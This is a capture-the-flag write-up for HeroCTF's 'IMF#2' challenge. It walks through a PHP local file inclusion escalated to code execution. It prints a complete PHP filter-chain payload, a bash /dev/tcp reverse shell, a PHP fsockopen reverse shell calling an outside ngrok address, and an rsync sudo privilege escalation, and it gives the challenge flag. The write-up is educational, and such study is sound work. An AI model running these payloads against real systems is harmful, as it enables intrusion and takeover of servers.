 # IMF#2: A woman's weapon 
Category: System

## Description
Historically considered as a woman's weapon, pretty sure that's not true and anyone can exploit it.

**PS**: When you understand what to exploit, try it locally first, as a failed attempt would very likely make any further attempts impossible.

\> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)

Format : **Hero{flag}**

Author : **Log_s**

## Write-up
- Continuing from [IMF#1: Bug Hunting](../system-imf-1/README.md), we examined the contents of the other issues and discovered two interesting ones.
- The first issue contained a file called [`log_checker.php`](solution/log_checker.php). It is a simple PHP file that checks for the presence of the `file` query parameter. If the parameter exists, it includes the specified file using PHP's `include` function. Otherwise, it includes the `/var/log/backup.log` file.
![](solution/image1.png)
- The second issue provided a hyperlink with the label [https://localhost:8081/upload?file=YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8wLjAuMC4wLzExMTEgMD4mMSI=](https://localhost:8081/upload?file=YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8wLjAuMC4wLzExMTEgMD4mMSI=). However, the `href` of the anchor tag pointed to rickroll [https://www.youtube.com/watch?v=dQw4w9WgXcQ](https://www.youtube.com/watch?v=dQw4w9WgXcQ). We decoded the base64-encoded string (`YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8wLjAuMC4wLzExMTEgMD4mMSI=`) and found that it contained a payload for a reverse shell (`bash -c "bash -i >& /dev/tcp/0.0.0.0/1111 0>&1"`).
![](solution/image2.png)
- Based on this information, it appears that we need to achieve Remote Code Execution (RCE) through an endpoint that accepts a file path as a query parameter.
- We discovered that this endpoint belongs to the `backup` server mentioned in the `welcome.txt` file from the previous challenge.
- The `backup` server is hosted on `backup:80`, accessible from the remote server (`dev`) we're currently on.
- To access the `backup` server, we can open another terminal and use the following command to forward our traffic from local port `1338` to the `backup` server: `ssh -L 1338:backup bob@dyn-02.heroctf.fr -p 11232`.
- For the file to include, we can leverage the LFI2RCE (Local File Inclusion to Remote Code Execution) technique using PHP filters. We can provide a "file" that is created using PHP filters, which takes a GET parameter called `cmd` containing our arbitrary command to execute on the `backup` server.
- The command to generate the payload is: `python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]); ?>'`.
```
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```
- The value of `cmd` is: `php -r '$sock=fsockopen("52.220.121.212",11096);system("sh <&3 >&3 2>&3");'`. This command creates a reverse shell using PHP. We use `ngrok` TCP (`52.220.121.212:11096`) to forward the traffic to our local port `7777`.
- Making a GET request to [http://localhost:1338](http://localhost:1338) with both `file` and `cmd` specified will open a non-interactive shell on our listener.
- To gain an interactive shell, we utilized the availability of Python by executing the following command: `python3 -c 'import pty; pty.spawn("/bin/bash")'`.
- Upon exploring the system, we discovered an intriguing directory located at `/backup`, which was owned by the `backup` user. However, since we were authenticated as `www-data`, our access was limited due to insufficient permissions.
- In our pursuit of escalating privileges, we decided to inspect the privileges assigned to our current user. Running `sudo -l` revealed that we had the ability to execute `rsync` as the `backup` user.
- Leveraging the insights from [GTFOBins](https://gtfobins.github.io/gtfobins/rsync/), we employed the `rsync` command to establish a shell under the context of the `backup` user. The command we used was: `sudo -u backup rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null`. We ran the command to pop an interactive shell again using Python.
- As a result of successfully executing the above commands, we gained access to the `/backup` directory. Within this directory, we discovered a file named `flag.txt` which contained the coveted flag.
![](solution/image3.png)

Flag: `Hero{n0t_0nly_hum4ns_c4n_b3_po1s3n3d}`
